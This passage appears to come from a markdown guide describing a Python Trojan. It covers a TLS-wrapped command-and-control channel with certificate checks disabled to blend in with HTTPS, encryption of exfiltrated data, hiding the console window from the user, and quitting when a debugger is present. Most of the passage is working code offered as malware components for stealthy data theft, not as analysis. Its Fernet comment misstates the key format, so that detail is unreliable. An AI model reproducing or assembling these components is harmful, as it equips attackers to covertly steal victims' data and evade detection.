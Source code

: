 - **Error Handling**: Gracefully closes connections on exceptions to avoid crashes.  

---

### **2. Encryption Mechanisms**  
#### **TLS for C2 Communication**  
TLS encryption is enforced using Python’s `ssl` module to secure the command channel:  
```python  
context = ssl.create_default_context(ssl.Purpose.SERVER_AUTH)  
context.check_hostname = False  
context.verify_mode = ssl.CERT_NONE  # Disable certificate validation for simplicity  
ssl_sock = context.wrap_socket(s, server_hostname=C2_IP)  
```  
This mimics HTTPS traffic patterns, reducing detection by network monitoring tools.  

#### **AES Encryption for Data Exfiltration**  
The `cryptography` library encrypts sensitive data before transmission:  
```python  
from cryptography.fernet import Fernet  

# Pre-shared key (must be securely exchanged beforehand)  
key = b"YOUR_32_BYTE_SECRET_KEY"  # Must be 32 bytes for AES-256  
cipher = Fernet(key)  

def encrypt_data(data):  
    return cipher.encrypt(data)  

# Example usage:  
encrypted = encrypt_data(b"Sensitive file contents")  
```  
Data is encrypted in memory before being sent to the C2 server.  

| **Encryption Layer** | **Purpose** | **Library/Method** |  
|----------------------|-------------|--------------------|  
| TLS                  | Secure C2 channel | `ssl` module |  
| AES                  | Protect exfiltrated data | `cryptography` |  

---

### **3. Stealth Techniques**  
#### **Process Hiding**  
The Trojan hides its console window using `ctypes` to avoid user detection:  
```python  
import ctypes  

# Hide the console window on execution  
ctypes.windll.user32.ShowWindow(ctypes.windll.kernel32.GetConsoleWindow(), 0)  
```  

#### **Anti-Debugging Checks**  
The code terminates if a debugger is detected:  
```python  
import ctypes  

def is_debugger_present():  
    return ctypes.windll.kernel32.IsDebuggerPresent()  

if is_debugger_present():  
    exit()  
```  
